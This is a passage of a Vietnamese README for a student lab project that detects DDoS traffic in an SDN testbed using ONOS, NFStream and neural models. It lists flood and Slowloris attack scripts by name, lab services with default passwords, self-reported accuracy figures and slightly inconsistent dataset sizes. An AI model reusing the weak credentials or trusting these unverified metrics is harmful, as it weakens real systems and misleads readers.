│   └── Action: Rate Limit 1Mbps + OUTPUT
└── Log: "[RATE_LIMIT] Suspicious from 10.0.2.50, monitoring..."
"""
```

#### **Lưu Trữ Dữ Liệu Zero-day**

```python
# zero_day_collector.py - Module lưu trữ attacks chưa từng thấy

class ZeroDayCollector:
    """Thu thập và lưu trữ zero-day attacks để phân tích sau"""
    
    def __init__(self):
        self.storage_file = "zero_day_flows.csv"
        self.min_anomaly_score = 1.0  # Error từ Autoencoder
        self.max_classifier_confidence = 0.6  # Classifier không chắc chắn
        
    def save_zero_day(self, flow_features, anomaly_score, 
                      classifier_probs, src_ip, timestamp):
        """
        Lưu flow được đánh dấu là zero-day để:
        1. Phân tích thủ công sau
        2. Cập nhật training dataset
        3. Cải thiện model cho các attacks tương tự
        """
        zero_day_record = {
            "timestamp": timestamp,
            "src_ip": src_ip,
            "anomaly_score": anomaly_score,
            "classifier_probs": classifier_probs,  # Phân bố xác suất
            "features": flow_features,  # 26 features đầy đủ
            "mitigation_action": "DROP",  # Đã xử lý
            "verified": False  # Chưa xác minh bởi admin
        }
        
        # Lưu vào CSV
        with open(self.storage_file, 'a') as f:
            writer = csv.DictWriter(f, fieldnames=zero_day_record.keys())
            writer.writerow(zero_day_record)
        
        print(f"[ZERO-DAY] Lưu flow từ {src_ip} để phân tích sau")
    
    def analyze_patterns(self):
        """Phân tích các zero-day đã lưu để tìm pattern chung"""
        df = pd.read_csv(self.storage_file)
        
        # Tìm cluster của zero-day
        from sklearn.cluster import DBSCAN
        clustering = DBSCAN(eps=0.5, min_samples=3).fit(df['features'])
        
        # Mỗi cluster = 1 loại zero-day mới tiềm năng
        unique_clusters = set(clustering.labels_) - {-1}
        
        return {
            "total_zero_days": len(df),
            "potential_new_attacks": len(unique_clusters),
            "requires_model_update": len(df) > 50  # Cập nhật model khi đủ 50 mẫu
        }

# Usage trong run_onos_v2.py
def handle_potential_zero_day(flow, ae_score, clf_probs):
    """Xử lý attacks chưa từng thấy"""
    max_conf = max(clf_probs)
    
    if ae_score > 1.0 and max_conf < 0.6:
        # Zero-day detected!
        collector.save_zero_day(
            flow_features=flow,
            anomaly_score=ae_score,
            classifier_probs=clf_probs,
            src_ip=flow['src_ip'],
            timestamp=datetime.now()
        )
        
        # Vẫn DROP nhưng ghi chú đặc biệt
        return "DROP_ZERO_DAY"
```

#### **Tổng Kết Hiệu Năng V4**

```
┌─────────────────────────────────────────────────────────────────────────┐
│           📊 TỔNG KẾT: V4 ĐÃ ĐẠT ĐƯỢC GÌ?                               │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  ✅ LỚP 1 (Anomaly Detection):                                          │
│     • 96.8% accuracy phân biệt Normal vs Attack                        │
│     • 89.3% detection rate cho Zero-day attacks                        │
│     • Adaptive threshold tự điều chỉnh theo network conditions        │
│                                                                         │
│  ✅ LỚP 2 (Classification):                                             │
│     • 96.0% weighted accuracy cho 5 classes                          │
│     • 2-Shield mechanism: Không chặn nhầm người dùng thật              │
│     • Veto Power 80%: Bảo vệ absolute cho Normal traffic             │
│                                                                         │
│  ✅ MITIGATION:                                                         │
│     • 100ms response time (sub-second)                                 │
│     • 3 levels: RATE_LIMIT → DROP → HONEYPOT (tùy mức độ)              │
│     • ONOS REST API: Tự động, không cần manual intervention            │
│     • Honeypot redirect: ⏸️ Tạm dừng nhưng đã implement                │
│                                                                         │
│  ✅ ZERO-DAY HANDLING:                                                  │
│     • Lưu trữ flows chưa từng thấy để phân tích sau                    │
│     • Cluster analysis để tìm new attack patterns                      │
│     • Tự động block ngay khi phát hiện (không chờ verify)              │
│                                                                         │
│  🎯 KẾT LUẬN:                                                           │
│     Hệ thống V4 đạt được sự cân bằng hoàn hảo:                          │
│     • Không lọt sót tấn công (high recall attack: 95.4%)               │
│     • Không chặn nhầm user (high precision normal: 97.2%)               │
│     • Phản ứng real-time (100ms)                                       │
│     • Xử lý linh hoạt (3 mitigation levels)                            │
│     • Ready cho production deployment!                                  │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 2.5 📁 Cấu Trúc Dự Án & Các Thành Phần Chính

### **2.5.1 Tổng Quan Cấu Trúc Thư Mục**

```
📁 ROOT (/home/tgf/Documents/DoAn_SDN/)
│
├── 🚀 **start.sh**                    - Script khởi động hệ thống chính
├── 🎯 **system.py**                   - File chính điều khiển Mininet network
├── 📊 **README.md**                   - Tài liệu chi tiết dự án (file này)
├── 📝 **note.txt**                    - Ghi chú project & kịch bản tấn công
├── 📋 **structer.txt**                - Cấu trúc dự án & workflow
│
├── 📁 **ai/**                         - Module AI/ML
│   ├── config_v2.py                   - Cấu hình toàn hệ thống
│   ├── train_colab_v2.py             - Training pipeline
│   ├── run_onos_v2.py                - Real-time IDS engine ⭐
│   ├── batPack_v2.py                 - NFStream data collector ⭐
│   └── auto_dataset_generator.py     - Dataset orchestrator
│
├── 📁 **attack/**                     - Module tấn công mạng
│   ├── udp_flood.py                   - L4 UDP Flood Attack
│   ├── syn_flood.py                   - L4 TCP SYN Flood + IP Spoofing
│   ├── http_flood.py                  - L7 HTTP Flood (Hash/JSON)
│   └── slowloris.py                   - L7 Slowloris Attack
│
├── 📁 **traffic/**                    - Traffic generation
│   └── normal.py                      - Normal traffic simulation
│
├── 📁 **thuThapData/**                - Data collection tools
│   ├── auto_dataset_generator.py     - Dataset generator
│   ├── check_data.py                  - Dataset validator
│   └── data_collector.py              - Legacy collector
│
├── 📁 **docker/**                     - Docker configurations
│   ├── web1/Dockerfile                - Web server container
│   └── proxy/Dockerfile               - Proxy container
│
├── 📁 **services/**                  - Network services
│   └── my_web_app/                    - Django web application
│       ├── manage.py                  - Django management
│       ├── setup_db.py                - Database setup
│       └── my_web_app/                - App settings & URLs
│
├── 📁 **monitor/**                   - Monitoring & metrics
│   ├── onos_metrics_collector.py     - ONOS metrics collection
│   └── dashboard/server.py            - Web dashboard (port 8050)
│
├── 📁 **onos/**                       - ONOS SDN Controller
│   └── set_icons.py                   - Set icons ONOS GUI
│
├── 📁 **topology/**                   - Network topology
│   └── research_topo.py               - 3-layer topology definition
│
└── 📁 **sdn_env/**                    - Python virtual environment
```

### **2.5.2 Topology Mạng 3-Lớp (Từ structer.txt)**

```
┌─────────────────────────────────────────────────────────────────┐
│                    TOPOLOGY MẠNG 3-LAYER                         │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│  CORE LAYER                                                      │
│  └── s1 (Core Switch)                                           │
│       └── Kết nối tất cả các distribution switches              │
│                                                                  │
│  DISTRIBUTION LAYER                                              │
│  ├── s2 (Botnet Distribution Switch) → h1-h50 (Botnet hosts)   │
│  ├── s3 (Client Distribution Switch) → h60-h69 (Client hosts)    │
│  └── s6 (Web Distribution Switch) → h70-h79 (Servers)            │
│                                                                  │
│  ACCESS LAYER - CÁC HOSTS & SERVICES                             │
│  ├── h70 (web1)   - Django Web App    [10.0.0.100]              │
│  ├── h71 (dns)    - DNS Server        [10.0.0.101]              │
│  ├── h72 (api)    - API Server        [10.0.0.102]              │
│  ├── h73 (db1)    - PostgreSQL DB     [10.0.0.20]               │
│  ├── h74 (proxy1) - HTTPS Proxy       [10.0.0.10]               │
│  └── h75 (honeypot) - Honeypot Service [10.0.0.201]             │
│                                                                  │
│  NETWORK SEGMENTATION                                            │
│  ├── 10.0.0.0/24: DMZ (Web, Proxy, DNS, Honeypot)               │
│  ├── 10.0.1.0/24: Botnet/Attackers (isolated)                   │
│  └── 10.0.2.0/24: Legitimate Clients                            │
│                                                                  │
└─────────────────────────────────────────────────────────────────┘
```

### **2.5.2b Lựa Chọn SDN Controller: Thử Nghiệm Ryu và ONOS**

Trong quá trình thiết lập hạ tầng, nhóm đã thử nghiệm cả hai SDN Controller phổ biến là **Ryu** và **ONOS** trước khi đưa ra quyết định cuối cùng.

**Thử nghiệm với Ryu (2 ngày):**

```python
# Cài đặt và cấu hình Ryu Controller
pip install ryu
ryu-manager --verbose ryu.app.simple_switch_13
```

| Khía cạnh | Kết quả thử nghiệm |
|-----------|-------------------|
| **Độ phức tạp** | Đơn giản, code Python dễ hiểu |
| **Tài liệu** | Hạn chế, cộng đồng nhỏ |
| **GUI/Web Interface** | Không có sẵn, phải tự phát triển |
| **Tích hợp Mininet** | Ổn định, kết nối OpenFlow đơn giản |
| **Khả năng mở rộng** | Hạn chế, phù hợp lab nhỏ |

**Nhược điểm quyết định:**
- Không có GUI quản lý trực quan, khó debug topology lớn
- Thiếu các ứng dụng built-in (DHCP, Proxy ARP, Firewall)
- Khó khăn trong việc monitoring real-time các flows và ports

---

**Thử nghiệm với ONOS (3 ngày):**

```bash
# Khởi động ONOS qua Docker
docker run -t -d --name onos \
  -p 8181:8181 -p 6653:6653 -p 8101:8101 \
  -e "ONOS_APPS=drivers,openflow,fwd,proxyarp,gui" \
  onosproject/onos:latest
```

| Khía cạnh | Kết quả thử nghiệm |
|-----------|-------------------|
| **Độ phức tạp** | Phức tạp hơn, Java-based |
| **Tài liệu** | Phong phú, cộng đồng lớn |
| **GUI/Web Interface** | Có sẵn, trực quan (port 8181) |
| **Tích hợp Mininet** | Ổn định, hỗ trợ nhiều giao thức |
| **Khả năng mở rộng** | Tốt, production-grade |

**Ưu điểm quyết định:**
- **GUI đầy đủ:** Xem topology, flows, ports real-time qua web browser
- **Ứng dụng built-in:** `fwd` (forwarding), `proxyarp` (ARP handling), `gui` (web interface)
- **REST API mạnh:** Dễ dàng tích hợp với Python scripts để push flow rules
- **Khả năng clustering:** Mặc dù đồ án không dùng, nhưng đảm bảo kiến trúc production-ready

**Quyết định cuối cùng:**
> Chọn **ONOS** vì GUI và tài liệu phong phú giúp debug và giám sát hệ thống dễ dàng hơn, đặc biệt khi làm việc với topology 3-layer phức tạp.

---

### **2.5.3 Luồng Hoạt Động Khi Chạy `start.sh`**

**PHASE 1: CLEANUP & PREPARATION**
```bash
# 1. Stop dịch vụ hiện tại
sudo systemctl stop docker openvswitch-switch

# 2. Clean network namespaces
sudo ip -all netns delete

# 3. Remove containers cũ
docker rm -f web1 db1 proxy1 onos

# 4. Kill processes trên các port quan trọng
sudo fuser -k 6653/tcp 6633/tcp 8181/tcp 8000/tcp 8050/tcp

# 5. Clean Mininet
sudo mn -c
sudo pkill -9 -f mininet mnexec
```

**PHASE 2: DOCKER BUILD**
```bash
# Build web1 container (Python 3.9 + Django + Nginx)
docker build -t web1-image docker/web1/

# Build proxy1 container (Squid + SSL)
docker build -t proxy1-image docker/proxy/

# Generate SSL certificates cho HTTPS
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
    -keyout docker/proxy/nginx.key \
    -out docker/proxy/nginx.crt
```

**PHASE 3: INFRASTRUCTURE STARTUP**
```bash
# 1. Start OpenVSwitch
sudo systemctl start openvswitch-switch

# 2. Start Docker
sudo systemctl start docker

# 3. Start ONOS SDN Controller ⭐ QUAN TRỌNG
# Giới hạn tài nguyên để tránh treo máy
docker run -t -d --name onos \
  -m 4g --cpus="5.0" \
  -p 8181:8181 -p 6653:6653 -p 8101:8101 \
  -e "JAVA_OPTS=-Xms1G -Xmx2G" \
  -e "ONOS_APPS=drivers,openflow,fwd,proxyarp,gui" \
  onosproject/onos:latest
```

**PHASE 4: MONITORING SERVICES**
```bash
# Start ONOS Metrics Collector (background)
python3 monitor/onos_metrics_collector.py &
→ Thu thập metrics mỗi 2 giây
→ Lưu vào: monitor/runtime/onos_metrics.json

# Start Dashboard Server (background)  
python3 dashboard/server.py &
→ HTTP server trên port 8050
→ Web interface để monitor real-time
```

**PHASE 5: MAIN SYSTEM (`system.py`)**
```python
# Initialize Containernet (Mininet + Docker)
net = Containernet(controller=Controller)

# Build 3-layer topology
# ├── Switches: s1-s6 (Core, Distribution, Access)
# ├── Hosts: h1-h79 (50 botnet + 10 client + 19 servers)
# └── Docker containers: web1, db1, proxy1

# Start services trên các hosts
h70 (web1):   Django web app + Attack endpoints
h71 (dns):    DNS server
h72 (api):    API server (port 5000)
h73 (db1):    PostgreSQL database
h74 (proxy1): Squid HTTPS proxy
h75 (honeypot): Cowrie honeypot service
```

**PHASE 6: DATABASE INITIALIZATION**
```python
# Local monitoring database
python3 dataset/init_db.py
→ Tạo tables: alerts, network_stats, host_activity, traffic_analysis

# Django web app database
docker exec web1 python3 setup_db.py
→ Django migrations
→ Create superuser: admin/admin
→ Seed test users: uneti_user_1-5
```

**PHASE 7: TRAFFIC GENERATION**
```bash
# Start normal traffic simulation (background)
h60-h65: python3 traffic/normal.py http://10.0.0.10:8000 &

# Open ONOS GUI in browser
firefox http://localhost:8181/onos/ui &

# Start CLI interface
mininet> py net.get('h60').cmd('python3 traffic/normal.py http://10.0.0.10:8000 &')
```

### **2.5.4 Các Cổng & Endpoints Quan Trọng**

| Port | Service | Mô tả |
|------|---------|-------|
| **8181** | ONOS GUI | http://localhost:8181/onos/ui (onos/rocks) |
| **6653** | OpenFlow | SDN controller port |
| **8101** | ONOS CLI | SSH karaf@localhost (pass: karaf) |
| **8050** | Dashboard | Web monitoring interface |
| **8443** | HTTPS Proxy | Proxy server SSL |
| **8000** | Django Web | Main web application |
| **5000** | API Server | REST API endpoints |
| **5432** | PostgreSQL | Database server |

**Django Attack Endpoints (để test hệ thống):**
- `/api/hash_login` - Hash Exhaustion endpoint (CPU intensive)
- `/api/process_json` - JSON Parsing Exhaustion (RAM intensive)

### **2.5.5 Thông Tin Dữ Liệu (Từ fielData.txt)**

**Các Loại Log File Quan Trọng Cho AI:**

| File | Ý nghĩa | Tầm quan trọng |
|------|---------|----------------|
| **conn.log** | Ghi lại mọi kết nối TCP/UDP/ICMP | ⭐⭐⭐ Rất cao: Dùng để train model DoS, Scan |
| **http.log** | Request/response HTTP (URL, User-agent) | ⭐⭐⭐ Cao: Phát hiện tấn công web |
| **dns.log** | Truy vấn tên miền | ⭐⭐ Cao: Phát hiện DNS Tunneling |
| **files.log** | File được truyền (MIME, hash MD5/SHA) | ⭐⭐ Trung bình: Phát hiện malware |
| **notice.log** | Cảnh báo bảo mật tự động | ⭐⭐ Trung bình: Dùng làm label |
| **capture_loss.log** | Tỷ lệ mất gói tin | ⭐ Thấp: Đánh giá chất lượng data |

**Chi Tiết conn.log (Quan Trọng Nhất):**

| Field | Tên | Ý nghĩa |
|-------|-----|---------|
| 1 | ts | Timestamp bắt đầu kết nối |
| 2 | uid | Unique ID cho kết nối |
| 3-6 | id.orig_h/p, id.resp_h/p | IP và Port src/dst |
| 7 | proto | Giao thức (tcp, udp, icmp) |
| 8 | service | Dịch vụ (http, dns, ssl) |
| 9 | duration | Thời gian kết nối |
| 10-11 | orig_bytes, resp_bytes | Số byte up/down |
| 12 | conn_state | Trạng thái (SF, S0, REJ) |
| 13-14 | orig_pkts, resp_pkts | Số gói tin 2 chiều |
| 15-16 | orig_ip_bytes, resp_ip_bytes | Số byte IP 2 chiều |

---

## 2.6 🔬 Quá Trình Thu Thập Dữ Liệu: Từ Zeek đến NFStream

### **2.6.1 Giai Đoạn Khám Phá Ban Đầu với Zeek**

Trước khi xây dựng hệ thống thu thập dữ liệu chính thức, nhóm đã tiến hành **thử nghiệm với Zeek IDS** để xác định các trường dữ liệu có thể thu thập được từ môi trường Mininet/ONOS.

```bash
# Lệnh thử nghiệm Zeek trên interface giám sát
sudo /opt/zeek/bin/zeek -C -i s6-eth4 local
```

**Kết quả thu được từ Zeek:**
- **conn.log**: 21 trường cơ bản (ts, uid, id, proto, service, duration, bytes, packets, state)
- **http.log**: 15 trường HTTP-specific (method, host, uri, user_agent, status_code, response_body_len)
- **dns.log**: 10 trường DNS (query, qclass, qtype, rcode, answers)
- **files.log**: 12 trường file analysis (md5, sha1, mime_type, filename)
- **notice.log**: Cảnh báo tự động từ Zeek (port scan, SYN flood detection)

**Đánh giá Zeek:**
- ✅ Ưu điểm: Chi tiết, chuyên sâu về bảo mật, nhiều trường L7
- ❌ Nhược điểm: Tài nguyên CPU/RAM cao, log files lớn, khó tích hợp real-time
- ❌ Không phù hợp với môi trường Mininet nặng (đã gây treo máy khi test)

### **2.6.2 So Sánh & Ánh Xạ Đặc Trưng với Dataset Internet**

Sau khi khảo sát các dataset DDoS phổ biến trên Internet (CICDDoS2019, NSL-KDD, UNSW-NB15), nhóm đã xây dựng **bảng ánh xạ đặc trưng** giữa dữ liệu thu được và các dataset tổng hợp:

| Đặc trưng NFStream (V4) | Zeek tương đương | CICDDoS2019 | NSL-KDD | Ý nghĩa chuyên sâu |
|-------------------------|------------------|-------------|---------|-------------------|
| **Src_Port_Entropy** | orig_p (entropy) | - | - | Đo độ ngẫu nhiên port nguồn (phát hiện IP spoofing) |
| **Dst_Port_Entropy** | resp_p (entropy) | Destination Port | dst_port | Mục tiêu tấn công có đa dạng không? |
| **Protocol** | proto | Protocol | protocol | TCP/UDP/ICMP - phân loại attack vector |
| **Duration_Sec** | duration | Flow Duration | duration | Thời gian sống của luồng (Slowloris có duration cao) |
| **Src_Bytes** | orig_bytes | Total Length of Fwd Packets | src_bytes | Băng thông upload (volumetric indicator) |
| **Dst_Bytes** | resp_bytes | Total Length of Bwd Packets | dst_bytes | Băng thông download (service response) |
| **Src_Packets** | orig_pkts | Fwd Packet Length Max | - | Số gói tin gửi đi (packet rate proxy) |
| **Dst_Packets** | resp_pkts | Bwd Packet Length Max | - | Số gói tin nhận về (asymmetry detection) |
| **Conn_State** | conn_state | SYN Flag Count | flag | Trạng thái kết nối (S0 = SYN Flood) |
| **L7_App_Protocol** | service | - | service | HTTP/DNS/FTP/SSH (application layer ID) |
| **Packet_Rate** | orig_pkts/duration | Flow Packets/s | - | Tốc độ gói tin/giây (Flood detection) |
| **Byte_Rate** | orig_bytes/duration | Flow Bytes/s | - | Tốc độ byte/giây (bandwidth attack) |
| **Anomaly_Score** | - | - | - | Điểm bất thường tính từ Autoencoder |

**Nhận xét quan trọng:**
- CICDDoS2019 có 80+ features nhưng **không có thông tin L7 chi tiết**
- NSL-KDD chỉ có 41 features, **thiếu hoàn toàn dữ liệu thời gian thực**
- Zeek có thông tin chi tiết nhưng **quá nặng cho real-time**
- **NFStream cân bằng tốt nhất**: Vừa có L7 (nhờ nDPI), vừa nhẹ, vừa flow-based

### **2.6.3 Dataset V1: Tổng Hợp và Ánh Xạ Đặc Trưng**

**Quá trình xây dựng Dataset V1 (Tiền thân của V0):**

Sau khi xác định các trường dữ liệu có thể thu thập được qua Zeek, nhóm đã **tổng hợp các dataset DDoS được chia sẻ trên mạng** (hơn 64GB từ nhiều nguồn) và tiến hành lọc, xử lý dựa trên bảng ánh xạ đặc trưng.



**Quy trình xử lý Dataset V1:**
```
Bước 1: Thu thập dataset từ Internet
├─ CICDDoS2019, NSL-KDD, UNSW-NB15, v.v.
├─ Tổng cộng: 64GB+ dữ liệu thô
└─ Định dạng: CSV, PCAP, log files khác nhau

Bước 2: Ánh xạ đặc trưng dựa trên Zeek analysis
├─ Xác định 20 trường có thể thu được từ hệ thống
├─ Loại bỏ các trường không tương thích (e.g., IP addresses riêng lẻ)
└─ Chuẩn hóa format về flow-based

Bước 3: Lọc và làm sạch
├─ Remove duplicates
├─ Handle missing values
├─ Filter irrelevant protocols
└─ Balance classes (undersampling majority)

Kết quả: 64GB → ~800MB (20 features, chưa phù hợp với model)
```

**Vấn đề của Dataset V1/V0:**
- Dữ liệu từ các nguồn khác nhau → format không đồng nhất
- Thiếu **flow sequences** cần thiết cho CNN-GRU
- Class imbalance không kiểm soát được
- Không có **differential features** (chỉ có giá trị tuyệt đối)

→ Quyết định: **Tự thu thập dataset** (V2-V7) thay vì dùng dataset có sẵn.

---

## 2.7 📊 Tiến Hóa Features: Từ 13 Đến 26 Đặc Trưng

### **2.7.1 V3.0: 13 Đặc Trưng Gốc (Core Features)**

Ở phiên bản V3, sau quá trình thử nghiệm và phân tích tương quan, nhóm đã chọn lọc **13 đặc trưng quan trọng nhất** từ dữ liệu thu được:

```python
# config_v2.py - 13 trường dữ liệu gốc (V3)
FEATURE_NAMES_ORIGINAL = [
    "Src_Port_Entropy",    # 1. Entropy port nguồn (chống IP spoofing)
    "Dst_Port_Entropy",    # 2. Entropy port đích (đa dạng mục tiêu)
    "Protocol",            # 3. Giao thức (TCP=6, UDP=17, ICMP=1)
    "Duration_Sec",        # 4. Thời gian kết nối (Slowloris: 30-120s)
    "Src_Bytes",           # 5. Byte gửi đi (volumetric metric)
    "Dst_Bytes",           # 6. Byte nhận về (response analysis)
    "Src_Packets",         # 7. Gói tin gửi (packet count)
    "Dst_Packets",         # 8. Gói tin nhận (asymmetry)
    "Conn_State",          # 9. Trạng thái kết nối (S0, SF, REJ, RSTO)
    "L7_App_Protocol",     # 10. Ứng dụng L7 (HTTP, DNS, TLS)
    "Packet_Rate",         # 11. Tốc độ gói/s (Flood indicator)
    "Byte_Rate",           # 12. Tốc độ byte/s (bandwidth)
    "Anomaly_Score"        # 13. Điểm bất thường từ AE
]
```

**Giải thích từng đặc trưng:**

| # | Feature | Công thức | Tại sao quan trọng? |
|---|---------|-----------|-------------------|
| 1 | **Src_Port_Entropy** | $-\sum p_i \log_2(p_i)$ | Phát hiện IP spoofing (entropy thấp = port cố định, entropy cao = ngẫu nhiên) |
| 2 | **Dst_Port_Entropy** | Tương tự | UDP Flood thường đánh nhiều port ngẫu nhiên (entropy cao) |
| 3 | **Protocol** | TCP=6, UDP=17, ICMP=1 | Phân loại attack vector ngay từ L3/L4 |
| 4 | **Duration_Sec** | Flow end - Flow start | Slowloris có duration rất cao (30-120s), Flood có duration thấp (<1s) |
| 5 | **Src_Bytes** | $\sum$ packet_size | Đo lường băng thông tấn công (volumetric) |
| 6 | **Dst_Bytes** | $\sum$ response_size | Phân biệt request/response asymmetry |
| 7 | **Src_Packets** | Count(sent) | Tính packet rate, phát hiện high-frequency attacks |
| 8 | **Dst_Packets** | Count(received) | Đo độ asymmetric (SYN Flood: high src, low dst) |
| 9 | **Conn_State** | Categorical | S0 = half-open (SYN Flood), SF = complete (Normal) |
| 10 | **L7_App_Protocol** | HTTP/DNS/TLS/... | Phân biệt L7 attacks (HTTP Flood vs SYN Flood) |
| 11 | **Packet_Rate** | Src_Packets / Duration | Chỉ số vàng cho Flood detection (thousands vs tens) |
| 12 | **Byte_Rate** | Src_Bytes / Duration | Đo băng thông thực tế (bytes per second) |
| 13 | **Anomaly_Score** | Autoencoder MSE | Điểm bất thường từ Shield 1 (0 = normal, >threshold = anomaly) |

### **2.7.2 V4.0: +13 Đặc Trưng Biến Thiên (Differential Features)**

**Vấn đề của V3:** Các đặc trưng tĩnh không thể phát hiện được **pattern thay đổi theo thời gian**. Ví dụ:
- Botnet có thể tấn công **chậm** để lách bộ lọc (packet_rate = 100, vẫn thấp hơn normal peak)
- User bình thường có thể **click nhanh** tạo burst traffic giống attack

**Giải pháp V4: Differential Features**

Thay vì chỉ dùng giá trị tuyệt đối, tính **sự thay đổi (delta)** giữa flow hiện tại và flow trước đó:

```python
# config_v2.py - 13 đặc trưng biến thiên (V4)
FEATURE_NAMES_DIFFERENTIAL = [
    "d_Src_Port_Entropy",   # Δ của entropy port nguồn
    "d_Dst_Port_Entropy",   # Δ của entropy port đích
    "d_Protocol",           # Δ giao thức (thường = 0)
    "d_Duration_Sec",       # Δ thời gian kết nối
    "d_Src_Bytes",          # Δ byte gửi đi
    "d_Dst_Bytes",          # Δ byte nhận về
    "d_Src_Packets",        # Δ gói tin gửi
    "d_Dst_Packets",        # Δ gói tin nhận
    "d_Conn_State",         # Δ trạng thái kết nối
    "d_L7_App_Protocol",    # Δ ứng dụng L7
    "d_Packet_Rate",        # Δ tốc độ gói/s ⭐
    "d_Byte_Rate",          # Δ tốc độ byte/s ⭐
    "d_Anomaly_Score"       # Δ điểm bất thường
]
```

**Công thức tính Differential:**

$$d\_feature_t = feature_t - feature_{t-1}$$

**Ví dụ thực tế:**

| Scenario | Packet_Rate | d_Packet_Rate | Giải thích |
|----------|-------------|---------------|------------|
| **Normal Browsing** | 50 → 45 → 60 | -5, +15 | Biến thiên ngẫu nhiên, không ổn định |
| **UDP Flood** | 1000 → 1005 → 999 | +5, -6 | Gần như **0** (máy móc, bot-like) |
| **Slowloris Start** | 1 → 2 → 1 | +1, -1 | Thấp, nhưng **pattern lặp lại** |
| **HTTP Flood Spike** | 20 → 500 → 480 | +480, -20 | **Jump cực lớn** rồi ổn định cao |

**Cơ chế hoạt động (từ report.txt):**

```python
"""
TRÍCH XUẤT ĐẶC TRƯNG BIẾN THIÊN (Differential Feature Engineering)

Ý tưởng: Thay vì chỉ cung cấp các con số tĩnh (như 1000 pkt/s), 
ta tính sự thay đổi giữa luồng hiện tại và luồng trước đó.

Giải thích:
- Traffic người dùng: Có sự biến thiên ngẫu nhiên (Differential cao)
- DDoS Flood: Có sự ổn định đến mức "đáng sợ" (Differential ≈ 0)

Lợi ích: Giúp AI nhận diện được sự "máy móc" của kẻ tấn công 
ngay cả khi chúng cố tình tấn công chậm để lách bộ lọc.
"""
```

**Tổng kết V4:**
- **26 đặc trưng tổng cộng** = 13 gốc + 13 biến thiên
- **Input cho Autoencoder**: 26 features × 10 flows = 260 chiều
- **Input cho CNN-GRU**: 26 features × 10 flows (sequence)
- **Đột phá**: Differential giúp phát hiện **slow attacks** và **low-rate DDoS**

---

### **2.7.3 Báo Cáo Phân Tích Dataset**

**Tiến hóa Dataset qua các phiên bản:**

📊 **Dataset V0 Report (Dataset Internet - Phiên bản thử nghiệm đầu tiên):**
- `dataset_v0_report.png` - Báo cáo phân tích dataset thu thập từ internet
- Quy trình xử lý: **46GB+ dữ liệu thô** → Lọc, xử lý, trích chọn → **~800MB dataset**
- Vấn đề: Dù đã giảm 98% kích thước, dữ liệu vẫn **không phù hợp** với mô hình
  - Format mismatch với NFStream output
  - Thiếu flow-based sequences cần thiết cho AI
  - Class distribution không kiểm soát được
- Kết luận: Quyết định **tự thu thập dataset** (V2-V7) thay vì dùng dataset có sẵn

📊 **Dataset V4 Report (Phiên bản 26 đặc trưng):**
- `dataset_v4_report.png` - Báo cáo chi tiết dataset V4 với đầy đủ 26 features
- Đặc điểm: Cân bằng tốt giữa 5 classes, thêm differential features
- Phân bố: Normal 40%, UDP 20%, SYN 15%, HTTP 15%, Slowloris 10%

📊 **Dataset V7 Evaluation (Phiên bản final):**
- `dataset_v7_evaluation.png` - Đánh giá toàn diện dataset V7 (phiên bản production)
- Đặc điểm: Duration optimized, L7 detection cải thiện, class balance tốt nhất
- Kết quả: 95% chất lượng so với yêu cầu thực tế

**So sánh qua các phiên bản:**

| Metric | V0 (Internet) | V4 (Custom) | V7 (Final) |
|--------|---------------|-------------|------------|
| Data Source | Internet 46GB → 800MB | Self-collected | Self-collected |
| Features | 13 (mismatch format) | 26 (differential) | 26 (optimized) |
| Class Balance | ❌ Uncontrolled | ✅ Good | ✅✅ Excellent |
| L7 Detection | ❌ N/A | ✅ 60% | ✅✅ 85% |
| Duration Accuracy | ❌ N/A | ✅ 70% | ✅✅ 95% |
| Training Quality | ❌ Unusable | 0.82 F1 | 0.91 F1 |
| Suitability | ❌ **Not compatible** | ✅ Working | ✅✅ Production |

---

## 3. Kiến Trúc Kỹ Thuật Chi Tiết

### 3.1 Module Sinh & Bắt Dữ Liệu (`batPack_v2.py`)

### 3.0 Kiến Trúc Thu Thập Dữ Liệu Tốc Độ Cao (High-Performance Data Collection)

> **Tầm quan trọng:** Đây là nền tảng để AI có dữ liệu chất lượng cao. Hệ thống sử dụng kiến trúc 4 tầng để đảm bảo **tốc độ cao, độ tin cậy cao, tài nguyên thấp**.

#### 3.0.1 Tổng Quan Kiến Trúc Thu Thập

**Quy trình xử lý và phân tích lưu lượng mạng:**



> *Hình: Pipeline xử lý dữ liệu từ capture → feature extraction → AI inference → mitigation decision*

```
┌─────────────────────────────────────────────────────────────────────────┐
│              HIGH-PERFORMANCE DATA COLLECTION ARCHITECTURE                │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  TẦNG 1: CAPTURE (Open vSwitch - Port Mirroring)                          │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │  Switch s6 (Gateway)                                            │   │
│  │  ┌──────────┐  ┌──────────┐  ┌──────────┐                      │   │
│  │  │ s6-eth2  │  │ s6-eth3  │  │s6-eth1   │ ← Mirror Port         │   │
│  │  │(to Web1) │  │(to Web2) │  │(Monitor)│ ← Safe & Independent │   │
│  │  └────┬─────┘  └────┬─────┘  └────┬─────┘                      │   │
│  │       │             │             │                              │   │
│  │       └─────────────┴─────────────┘                              │   │
│  │                    │                                             │   │
│  │              [Mirroring] All traffic → s6-eth1                  │   │
│  └────────────────────┼────────────────────────────────────────────┘   │
│                       ↓                                                  │
│  TẦNG 2: EXTRACTION (NFStream + nDPI - C/C++ Core)                        │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │  NFStream (Python wrapper)                                       │   │
│  │  ┌─────────────────────────────────────────────────────────────┐ │   │
│  │  │  nDPI Engine (C/C++) - Deep Packet Inspection              │ │   │
│  │  │  • Parse L2/L3/L4 headers                                 │ │   │
│  │  │  • Detect L7 protocols (HTTP, TLS, DNS)                   │ │   │
│  │  │  • Flow aggregation (gộp packets thành flows)               │ │   │
│  │  │  • Statistical calculation (rate, entropy)               │ │   │
│  │  └─────────────────────────────────────────────────────────────┘ │   │
│  │  Output: Flow records (26 features)                             │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                       ↓                                                  │
│  TẦNG 3: TRANSPORT (Named Pipes/FIFO - RAM-based IPC)                     │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │  FIFO: zeek_stream.json (không qua Disk I/O)                    │   │
│  │  ┌────────────┐      RAM Buffer       ┌────────────┐           │   │
│  │  │ batPack_v2 │ ═══════════════════════►│ auto_dataset│           │   │
